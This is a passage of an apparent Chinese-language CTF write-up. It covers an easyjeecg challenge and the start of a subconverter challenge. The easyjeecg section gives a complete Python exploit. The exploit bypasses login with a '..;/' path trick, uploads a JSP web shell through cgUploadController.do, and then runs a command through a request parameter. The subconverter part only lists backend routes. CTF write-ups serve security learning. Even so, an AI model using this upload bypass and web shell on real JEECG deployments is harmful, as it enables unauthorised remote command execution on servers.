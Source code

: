 ### easyjeecg

1. 使用...;/绕过过滤器的登录检查
2. cgUploadController.do?Ajaxsavefile任意文件上传
3. 由于nginx禁止访问uploads目录，你可以上传jspx或请求/a/...;/uploads/xxxxx.jsp。



![image-20220824165613155](https://c.img.dasctf.com/images/2022824/1661331378849-a205ae6d-51c9-4bb3-8de3-efcc247eea3f.png)

![image-20220824165655514](https://c.img.dasctf.com/images/2022824/1661331412951-663fefde-cf51-4af8-bc18-1ab35d171650.png)

只要满足任何如果，就可以绕过它。

exp:

```
import re

import requests
import sys
Target=sys.argv[1]
shellData="""<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%
    BufferedReader br = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(request.getParameter("name")).getInputStream()));
    String line = null;
    StringBuffer b = new StringBuffer();
    while ((line = br.readLine()) != null) {
        b.append(line + " ");
    }
    out.println(b.toString());
%>"""
shellPath=(re.search('"url":"(.*?)"',requests.post(url=Target+"/cgUploadController.do;toLogin.do?ajaxSaveFile",files={"file":("1.jsp",shellData)}).text,re.I|re.M).group(1))
print(Target+"/a/..;/"+shellPath+"?name=/readflag")
print(requests.get(url=Target+"/a/..;/"+shellPath+"?name=/readflag").text)
```



### subconverter

1. 根据附件中Dockerfile中的提示或者访问/version得知后端是`subconverter v0.7.2-f9713b4 backend`，可以找到对应的github库 `https://github.com/tindy2013/subconverter` 。出题时`v0.7.2-f9713b4`是subconverter的最新版本，现在subconverter已经发布了新版本，删除了`/qx-*`路由，并且`fetchFile`加入了是否拉取本地文件的参数。
2. 读源码得知一共有这么些路由可以用。

```
https://github.com/tindy2013/subconverter/blob/f9713b43b92dad81bc2e51a9fbe355d559fb9294/src/main.cpp#L181

/version
/refreshrules
/readconf
/updateconf
/flushcache
/sub
/sub2clashr
/surge2clash
/getruleset
/getprofile
/qx-script
/qx-rewrite
/render
/convert
```
